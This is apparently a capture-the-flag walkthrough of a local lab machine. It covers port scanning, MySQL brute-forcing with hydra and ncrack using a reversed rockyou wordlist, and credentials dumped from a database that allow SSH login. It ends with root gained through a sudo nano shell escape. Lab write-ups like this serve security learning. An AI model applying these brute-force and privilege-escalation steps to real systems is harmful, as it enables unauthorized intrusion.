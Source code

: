 ____
IP=172.17.0.2
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn $IP | grep -oP '\d+(?=/tcp)' | paste -sd ',' -

22,80,3306

nmap -sCV $IP -oN nmap -Pn -p22,80,3306

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-19 07:24 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00052s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9e:6a:3f:89:de:9d:05:d9:94:32:73:8d:31:e0:a5:eb (ECDSA)
|_  256 e7:ef:4f:4a:25:86:c9:55:b0:88:0a:8c:79:03:d0:9f (ED25519)
80/tcp   open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Web de Capybaras
|_http-server-header: Apache/2.4.52 (Ubuntu)
3306/tcp open  mysql   MySQL 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.6.16-MariaDB-0ubuntu0.22.04.1
|   Thread ID: 36
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, DontAllowDatabaseTableColumn, LongColumnFlag, Speaks41ProtocolOld, ODBCClient, FoundRows, IgnoreSigpipes, InteractiveClient, Support41Auth, SupportsCompression, SupportsTransactions, SupportsLoadDataLocal, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: lkS<qFK&wJIpx*b5!Bga
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

whatweb http://$IP            

http://172.17.0.2 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], Title[Web de Capybaras]


user leak: **capybarauser**

viewing the source code view-source:http://172.17.0.2/

<p>He securizado mi password, ya no se encuentra al comienzo del rockyou..., espero que nadie use el comando tac y se fije en las últimas passwords del rockyou</p>

The 'tac' command is **the reverse of the 'cat' command**. It is also known as 'cat' backward. It will display the file content in reverse order. It prints the last line first, then second last and so on.

tac /usr/share/wordlists/rockyou.txt| head -100 > passwords.txt

first lines characters are corrupted so we have to delete 

```txt
^D*^C7¡Vamos!^C
^Ha6_123
^Habygurl69
^Hie168
^ZxCvBnM,
```
to 

```txt
7¡Vamos!
a6_123
abygurl69
ie168
xCvBnM,
```
if we dont delete then we get blocked 

```txt
[ERROR] Host '172.17.0.1' is blocked because of many connection errors; unblock with 'mariadb-admin flush-hosts'
[ERROR] Host '172.17.0.1' is blocked because of many connection errors; unblock with 'mariadb-admin flush-hosts'
[ERROR] Host '172.17.0.1' is blocked because of many connection errors; unblock with 'mariadb-admin flush-hosts'
[ERROR] Host '172.17.0.1' is blocked because of many connection errors; unblock with 'mariadb-admin flush-hosts'
[ERROR] Host '172.17.0.1' is blocked because of many connection errors; unblock with 'mariadb-admin flush-hosts'
[ERROR] Host '172.17.0.1' is blocked because of many connection errors; unblock with 'mariadb-admin flush-hosts'
```

```bash
tac /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt |head -n 10 | tr -cd '\11\12\15\40-\176' | sed 's/^[[:space:]]*//;s/[[:space:]]*$//' | sed '/^$/d' | sed 's/[[:space:]]\+/ /g' > passwords.txt
```

```shell
hydra -l capybarauser -P passwords.txt mysql://$IP
```

```bash
ncrack -u capybarauser -P passwords.txt mysql://$IP
```

[3306][mysql] host: 172.17.0.2   login: capybarauser   password: ie168


```bash
mysql -u capybarauser -h $IP -p
```

```txt
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| pinguinasio_db     |
| sys                |
+--------------------+
5 rows in set (0.001 sec)

MariaDB [(none)]> use pinguinasio_db;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [pinguinasio_db]> show tables;
+--------------------------+
| Tables_in_pinguinasio_db |
+--------------------------+
| users                    |
+--------------------------+
1 row in set (0.001 sec)

MariaDB [pinguinasio_db]> select * from users;
+----+-------+------------------+
| id | user  | password         |
+----+-------+------------------+
|  1 | mario | pinguinomolon123 |
+----+-------+------------------+
```

```bash
ssh mario@$IP
```

# PrivEsc

sudo -l
User mario may run the following commands on 422e457f179c:
    (ALL : ALL) NOPASSWD: /usr/bin/nano

```
sudo nano
^R^X
reset; bash 1>&0 2>&0
```

![[Pasted image 20240619142353.png]]root@422e457f179c:~# whoami
root

